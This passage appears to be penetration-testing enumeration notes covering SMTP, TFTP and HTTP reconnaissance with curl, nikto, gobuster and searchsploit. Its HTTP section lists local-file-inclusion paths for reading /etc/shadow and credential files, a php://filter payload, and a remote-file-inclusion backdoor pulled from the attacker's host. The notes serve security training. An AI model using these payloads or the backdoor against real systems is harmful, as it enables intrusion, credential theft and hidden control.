 ```
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ONEX
250-ETRN
250-XUSR
250 HELP
AUTH LOGIN
````

# TFTP - UDP 69

- Read / Write access?
  - Pretty much same things as FTP



Also: ***CHECK VERSIONS*** and `searchsploit`





# HTTP - 80, 8080, 8000

```
curl -i ${IP}/robots.txt
```

Note down Server and other module versions.

searchsploit them ALL.

Visit all URLs from robots.txt.

```
nikto -host $IP
```

```
gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt

gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/common.txt
```

if nothing, find more web word lists.

*Browse the site* but keep an eye on the burp window / source code / cookies etc.

Things to be on look for:

- Default credentials for software
- SQL-injectable GET/POST params
- LFI/RFI through ?page=foo type params
- LFI:
  - `/etc/passwd` | `/etc/shadow` insta-win
  - `/var/www/html/config.php` or similar paths to get SQL etc creds
  - `?page=php://filter/convert.base64-encode/resource=../config.php`
  - `../../../../../boot.ini` to find out windows version
- RFI:
  - Have your PHP/cgi downloader ready
  - `<?php include $_GET['inc']; ?>` simplest backdoor to keep it dynamic without anything messing your output
  - Then you can just `http://$IP/inc.php?inc=http://$YOURIP/bg.php` and have full control with minimal footprint on target machine
  - get `phpinfo()`

